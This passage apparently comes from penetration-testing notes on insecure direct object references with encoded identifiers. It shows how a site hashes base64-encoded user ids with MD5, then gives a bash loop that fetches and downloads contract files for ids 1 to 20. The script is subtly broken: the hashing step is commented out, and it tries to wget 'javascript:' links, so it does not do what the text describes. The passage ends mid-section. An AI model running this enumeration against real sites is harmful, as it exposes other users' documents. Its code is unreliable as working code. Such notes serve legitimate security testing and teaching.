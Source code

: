 ### Encoded

<figure><img src="../../.gitbook/assets/Web Attacks (2).png" alt=""><figcaption></figcaption></figure>

In this case it is md5 hash and the hash for uid does not match. If the function is in the frontend like `javascript:downloadContract('1')`

```javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```

To try with uid=1 `echo -n 1 | base64 -w 0 | md5sum`

**Tip**: We are using the `-n` flag with echo, and the `-w 0` flag with _base64_, to avoid adding **newlines**, in order to be able to calculate the _md5_ hash of the same value, without hashing newlines, as that would change the final md5 hash.

To use in function:

```bash
#!/bin/bash

url=$1

for i in {1..20}; do
        # id = $(echo -n $i | base64 | jq -sRr @uri | sed 's/%0A//')
        for link in $(curl -s "$url/contracts.php" | grep -oP "javascript:downloadContract\('${i}'\)"); do
                echo $link
                wget -q $url/$link
        done
done
```

## Insecure APIs

Example api call:
